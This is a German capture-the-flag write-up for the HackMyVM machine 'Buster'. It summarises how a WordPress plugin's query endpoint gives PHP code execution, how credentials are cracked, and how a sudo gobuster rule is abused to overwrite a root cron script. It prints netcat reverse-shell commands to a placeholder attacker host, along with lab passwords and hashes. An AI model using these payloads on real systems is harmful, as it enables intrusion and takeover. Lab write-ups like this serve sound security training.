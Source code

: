 # Buster - HackMyVM (Easy)

![Buster Icon](buster.png)

## Übersicht

*   **VM:** Buster
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=buster)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2025-01-26
*   **Original-Writeup:** https://alientec1908.github.io/buster_HackMyVM_Easy/
*   **Autor:** Ben C. 

## Kurzbeschreibung

Die virtuelle Maschine "Buster" von HackMyVM (Schwierigkeitsgrad: Easy) präsentierte eine Reihe von Schwachstellen, die eine schrittweise Kompromittierung bis zum Root-Zugriff ermöglichten. Der initiale Zugriff erfolgte über eine Remote Code Execution (RCE) Schwachstelle in einem WordPress Plugin (vermutlich WP Query Console). Durch Post-Exploitation wurden Datenbank-Credentials offengelegt, die das Knacken eines lokalen Benutzerpassworts erlaubten. Eine unsichere `sudo`-Konfiguration für diesen Benutzer ermöglichte schließlich die Manipulation eines Cronjobs und damit die Erlangung von Root-Rechten.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `ip`, `grep`, `awk`, `sort` (für IPv6 Nmap Target Discovery)
*   `curl`
*   `nikto`
*   `gobuster`
*   `jq`
*   `wpscan`
*   `msfconsole` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich, ggf. für Recherche)
*   `searchsploit` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich, ggf. für Recherche)
*   `hydra` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich)
*   `wfuzz` (im Writeup gelistet, aber konkrete Nutzung nicht ersichtlich)
*   Burp Suite
*   `tcpdump`
*   `nc` (netcat)
*   `stty`
*   `python3` (für HTTP Server)
*   `ls`, `cat`, `id`, `su`, `find`, `ss`, `echo`, `chmod`, `mkdir`
*   `mysql` (Client)
*   `john` (John the Ripper)
*   `sudo`
*   `pspy`

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Buster" erfolgte in mehreren Schritten:

1.  **Reconnaissance & Enumeration:**
    *   Ziel-IP (`192.168.2.162`, Hostname `buster.hmv`) mittels `arp-scan` und Eintrag in `/etc/hosts` identifiziert.
    *   Umfangreiche `nmap`-Scans (TCP, UDP, SCTP, IPv6, Vuln-Scripts) zeigten offene Ports 22 (OpenSSH 7.9p1) und 80 (Nginx 1.14.2), auf dem eine WordPress-Instanz (Version 6.7.1, Titel "bammmmuwe") lief. Zahlreiche CVEs wurden für SSH und Nginx gemeldet, aber nicht primär ausgenutzt.
    *   HTTP-Analyse mit `curl`, `nikto` und `gobuster` bestätigte WordPress und deckte Standardpfade, fehlende Sicherheitsheader und den `X-Redirect-By: WordPress` Header auf.

2.  **WordPress Analyse & Schwachstellenfindung:**
    *   Manuelle Analyse und `curl` der WordPress REST API (`/wp-json/wp/v2/users`) offenbarte den Benutzer `ta0`.
    *   Login-Fehlermeldungen bestätigten die Existenz von `ta0`.
    *   `wpscan` konnte kein Passwort für `ta0` finden, enumerierte aber einen weiteren Benutzer: `welcome`.
    *   Entdeckung des kritischen Endpunkts `/wp-json/wqc/v1/query` (vermutlich "WordPress Query Console").

3.  **Initial Access (RCE via WQC):**
    *   Der WQC-Endpunkt erlaubte via POST-Request mit JSON-Body (`{"queryArgs":"<PHP_CODE>","queryType":"post"}`) die Ausführung von PHP-Code.
    *   `phpinfo()` wurde ausgeführt; `disable_functions` war aktiv, ließ aber `shell_exec` zu.
    *   Blind RCE wurde via `shell_exec('ping ...')` und `tcpdump` bestätigt.
    *   Eine Reverse Shell wurde mit `shell_exec('nc -e /bin/bash ATTACKER_IP 4445')` als Benutzer `www-data` erlangt.

4.  **Post-Exploitation (als www-data):**
    *   Die Datei `wp-config.php` wurde gefunden und enthielt Datenbank-Credentials: Benutzer `ll104567` mit Passwort `thehandsomeguy`.
    *   Mit diesen Credentials wurde auf die lokale MySQL-Datenbank zugegriffen.
    *   Aus der Tabelle `wp_users` wurden die Passwort-Hashes (Format `$P$`) für `ta0` und `welcome` (`$P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/`) extrahiert.

5.  **Privilege Escalation (www-data zu welcome):**
    *   Der Passwort-Hash für `welcome` wurde mit `john` und `rockyou.txt` geknackt: `104567`.
    *   Mit `su welcome` und dem Passwort `104567` wurde erfolgreich zum Benutzer `welcome` gewechselt.
    *   Die User-Flag wurde im Home-Verzeichnis von `welcome` gefunden.

6.  **Privilege Escalation (welcome zu root):**
    *   `sudo -l` für `welcome` zeigte: `(ALL) NOPASSWD: /usr/bin/gobuster`.
    *   `pspy` deckte einen Cronjob auf, der minütlich als `root` das Skript `/opt/.test.sh` ausführt.
    *   Der Exploit:
        1.  Ein Reverse-Shell-Payload (`nc -e /bin/bash ATTACKER_IP 5555`) wurde in eine Datei `/tmp/payload` auf dem Zielsystem geschrieben.
        2.  Ein Python HTTP-Server wurde auf der Angreifer-Maschine gestartet, um `/tmp/payload` bereitzustellen.
        3.  `sudo gobuster dir -u http://ATTACKER_IP/tmp/payload -w <dummy_wordlist_containing_single_entry_that_resolves_to_payload> -o /opt/.test.sh` wurde ausgeführt. `gobuster` (als root) forderte den Payload vom Angreifer-Server an und schrieb dessen Inhalt (den `nc`-Befehl) dank der `-o` Option in `/opt/.test.sh`.
        4.  Der Cronjob führte kurz darauf `/opt/.test.sh` aus und etablierte eine Reverse Shell als `root`.
    *   Die Root-Flag wurde im `/root`-Verzeichnis gefunden.

## Wichtige Schwachstellen und Konzepte

*   **WordPress Plugin Schwachstelle (RCE):** Ein unsicherer API-Endpunkt (`/wp-json/wqc/v1/query`) erlaubte PHP-Code-Ausführung über `shell_exec` trotz einiger `disable_functions`.
*   **Klartext-Credentials:** Datenbankzugangsdaten in `wp-config.php`.
*   **Schwache Passwörter & Hash Cracking:** Ein WordPress-Benutzerpasswort (`$P$` Hash) konnte offline geknackt werden.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte die Ausführung von `gobuster` als `root` ohne Passwort, was durch die `-o` Option (Output in Datei schreiben) missbraucht wurde.
*   **Cronjob Manipulation:** Ein als `root` laufender Cronjob, der ein von einem weniger privilegierten Benutzer (indirekt via `sudo gobuster`) beschreibbares Skript ausführt.
*   **Benutzer-Enumeration:** Über WordPress REST API und spezifische Login-Fehlermeldungen.
*   **Blind RCE:** Bestätigung der Codeausführung ohne direkte Ausgabe durch Überwachung des Netzwerkverkehrs (ICMP).

## Flags

*   **User Flag (`/home/welcome/user.txt`):** `29e0f786e8c90b3ce82e00de0ec7e7d3`
*   **Root Flag (`/root/R00t_fl4g_is_HHHHerererererrererere.txt`):** `b6a1a0de4223ba038327fc9c647701fb`

## Tags

`HackMyVM`, `Buster`, `Easy`, `WordPress`, `RCE`, `WQC`, `shell_exec`, `wp-config`, `Password Cracking`, `JohnTheRipper`, `Sudo Privilege Escalation`, `Gobuster`, `Cronjob Manipulation`, `pspy`, `Linux`, `Web`
